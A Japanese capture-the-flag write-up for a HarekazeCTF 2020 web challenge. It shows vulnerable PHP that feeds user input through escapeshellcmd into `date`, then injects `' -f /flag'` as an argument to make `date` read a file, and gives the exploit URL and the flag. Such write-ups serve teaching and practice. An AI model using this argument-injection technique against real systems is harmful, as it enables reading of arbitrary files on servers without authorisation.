 # Writeup

指定のサイトにアクセスすると、現在時刻が表示される。

![](img/2020-12-26-15-25-49.png)

ソースコードを読むと、どうやら`date`コマンドを実行して、その結果を表示しているようだ。`date`の出力フォーマットを`format`パラメータで指定している。

```php
<?php
if (isset($_GET['source'])) {
  highlight_file(__FILE__);
  exit;
}

$format = isset($_REQUEST['format']) ? (string)$_REQUEST['format'] : '%H:%M:%S';
$result = shell_exec("date '+" . escapeshellcmd($format) . "' 2>&1");
?>

// (略)

<h1 class="jumbotron-heading"><span class="text-muted">It's</span> <?= isset($result) ? $result : '?' ?><span class="text-muted">.</span></h1>
```

`format`に実行したいコマンドを入れ、`date '+`.`%Y-%m-%d' ; ls '`.`'`みたいにすれば良さそうだが、`escapeshellcmd`によってほとんどの特殊文字がエスケープされてしまうので不可能。(ただし、対になっている`'`,`"`は可能)

* [PHPマニュアル:escapeshellcmd:シェルのメタ文字をエスケープする](https://php.plus-server.net/function.escapeshellcmd.html)

[GTFOBins](https://gtfobins.github.io/)で`date`コマンドについて調べると、`-f`オプションでファイル読み込みができることが分かった。

ファイル名は決め打ちで、`format`に`' -f /flag'`を与えたところ、`date '+' -f /flag'' 2>&1`が実行され、フラグが表示された。

* http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/what-time-is-it-now/?format=%27%20-f%20/flag%27

<!-- HarekazeCTF{1t's_7pm_1n_t0ky0} -->